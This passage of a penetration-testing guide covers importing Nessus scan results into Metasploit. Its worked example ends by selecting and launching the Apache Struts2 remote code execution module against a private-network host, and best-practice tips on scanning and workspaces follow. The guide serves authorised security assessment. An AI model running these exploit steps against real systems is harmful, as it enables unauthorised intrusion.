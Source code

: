 ## Real-World Usage Example

### Scenario: Web Application Assessment

```bash
# 1. Perform Nessus scan on web server
# Targets: 192.168.1.100
# Scan type: Web application focused

# 2. Export and import results
db_import web_scan_nessus.xml

# 3. Analyze web-specific vulnerabilities
vulns -p 80,443,8080

# 4. Identify exploitable vulnerabilities
search cve:2023 type:exploit name:apache

# 5. Launch targeted exploitation
use exploit/multi/http/apache_struts2_code_exec
set RHOSTS 192.168.1.100
set TARGETURI /struts2-showcase/
exploit
```

## Best Practices

### Scan Configuration

- Schedule scans during maintenance windows
- Use appropriate scan intensity for environment
- Configure credentials for authenticated scanning when possible
- Regularly update Nessus plugins

### Result Management

- Export and archive scan results
- Use consistent naming conventions
- Maintain separate workspaces in Metasploit for different assessments
- Document false positives for future reference

### Integration Tips

- Always verify imported data with `hosts` and `services` commands
- Use specific filters to narrow down vulnerability lists
- Cross-reference Nessus findings with manual verification
- Leverage CVE codes for precise exploit module searches

## Troubleshooting
